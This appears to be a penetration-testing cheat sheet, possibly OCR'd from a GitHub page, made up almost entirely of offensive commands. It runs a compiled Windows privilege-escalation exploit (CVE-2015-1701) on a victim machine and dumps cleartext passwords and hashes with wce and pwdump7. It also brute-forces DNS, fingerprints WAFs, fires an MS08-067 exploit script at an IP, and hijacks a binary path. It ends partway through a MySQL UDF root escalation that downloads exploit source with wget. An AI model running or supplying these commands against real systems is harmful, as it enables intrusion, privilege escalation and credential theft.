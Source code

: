 # check the list of patches applied on the target machine
# to get the list of Hotfixes installed, type in the following command.
wmic qfe get
wmic qfe | find "3057191"

# Upload compile exploit to victim machine and run it
https://github.com/hfiref0x/CVE-2015-1701/raw/master/Compiled/Taihou64.exe

# by default exploite exec cmd.exe with SYSTEM privileges, we need to change source code to run danger.exe
# https://github.com/hfiref0x/CVE-2015-1701 download it and navigate to the file "main.c"

# dump clear text password of the currently logged in user using wce.exe
http://www.ampliasecurity.com/research/windows-credentials-editor/
wce -w

# dump hashes of other users with pwdump7
http://www.heise.de/download/pwdump.html
# we can try online hash cracking tools such crackstation.net
Generate our own dic file based on the website content
$ cewl -m 4 -w dict.txt http://site.url
$ john --wordlist=dict.txt --rules --stdout
Bruteforce DNS records using Nmap
$ nmap --script dns-brute --script-args dns-brute.domain=foo.com,dns-brute.threads=6,dns-brute.hostlist=./hostfile.txt,newtargets -sS -p 80
$ nmap --script dns-brute www.foo.com
Identifying a WAF with Nmap
$ nmap -p 80,443 --script=http-waf-detect 192.168.56.102
$ nmap -p 80,443 --script=http-waf-fingerprint 192.168.56.102
$ wafw00f www.hamza.com
MS08-067 - without the use of Metasploit
$ nmap -v -p 139, 445 --script=smb-check-vulns --script-args=unsafe=1 192.168.31.205
$ searchsploit ms08-067
$ python /usr/share/exploitdb/platforms/windows/remote/7132.py 192.168.31.205 1
Nikto scan with SQUID proxy
$ nikto -useproxy http://squid_ip:3128 -h http://target_ip
Hijack a binary’s full path in bash to exec your own code
$ function /usr/bin/foo () { /usr/bin/echo "It works"; }
$ export -f /usr/bin/foo
$ /usr/bin/foo
# It works ;)
Local privilege escalation through MySQL run with root privileges
# Mysql Server version: 5.5.44-0ubuntu0.14.04.1 (Ubuntu)
$ wget 0xdeadbeef.info/exploits/raptor_udf2.c
$ gcc -g -c raptor_udf2.c